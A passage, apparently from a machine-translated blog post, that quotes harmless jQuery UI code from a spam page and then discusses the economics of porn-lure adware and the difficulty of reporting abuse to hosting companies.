  $('.loader, .overlay1').hide();
  $p = $('.box12 ');
  $p.css({
    top: $p.data('top'),
    left: $p.data('left'),
    width: $p.data('width'),
    height: $p.data('height'),
  })
  $detail.removeClass('ready').delay(500).queue(function(next){
    $(this).hide();
    $('.poster').removeClass('active');
    next();
  });
}$close.click(close);</script>
  </body>
```

有趣的是，他们试图抱怨大公司的跟踪基础设施，而他们自己却在用尽各种大大小小的公司的跟踪和推荐服务。

像这样的广告软件安装作为垃圾邮件端点比试图说服客户输入真实色情视频的信用卡号更有经济意义；付费内容的转换率非常低(有很多免费内容),色情内容面临退款问题,“嗯，大通银行，是的，那笔费用完全不是我的……。因此，他们不是有 1%的机会获得价值 0.30 美元的 30 美元转化率，而是有 10%的机会获得 0.01 美元/搜索转化率——如果你保持客户一年，每天 10 次搜索就是 35.00 美元，因此概率值为 3.50 美元。虽然我的数学可能有点差，但重点是广告软件相对于真正的商业色情产品来说转化得相当好。但是你仍然可以让一个愚蠢的家伙点击一个可爱的女孩图片旁边的东西，所以这是你在 lead-gen 上的高转化率…

可悲的是，追踪所有这些服务的滥用报告端点令人疲惫不堪。我相信亚马逊(还有谷歌和脸书)的优秀员工们。)我不想在实现这种东西的过程中扮演如此关键的角色，但是要跟踪的东西太多了，自动化工具显然跟不上。

欢迎反馈:我错过了什么，我搞砸了什么，以及我们可以共同打击这种垃圾行业的方法。